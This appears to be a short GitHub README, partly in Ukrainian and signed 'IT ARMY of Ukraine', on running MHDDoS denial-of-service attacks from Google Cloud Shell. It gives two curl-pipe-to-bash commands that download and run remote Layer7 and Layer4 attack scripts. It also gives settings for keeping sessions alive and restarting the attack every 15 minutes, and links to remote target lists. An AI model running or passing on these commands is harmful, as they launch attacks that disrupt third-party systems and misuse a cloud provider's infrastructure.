 # DDoS whith Google Cloud Shell 
# MHDDoS_proxy
# 
Making script for durable cloudshell session

# ТЕСТ
Команди для запуску атаки

по Layer7:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L7m.sh | bash

по Layer4:
curl -l https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Test_L4.sh | bash

У GCloudShell https://shell.cloud.google.com/?fromcloudshell=true&show=terminal вмикаємо Ephemeral Mode (ставимо - "Завжди")

Налаштовано: перезапуск скрипту кожні 15 хв, метод атаки додається зі списку цілей, параметр -t вказано 1200

Списки з цілями

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst

https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4




IT ARMY of Ukraine
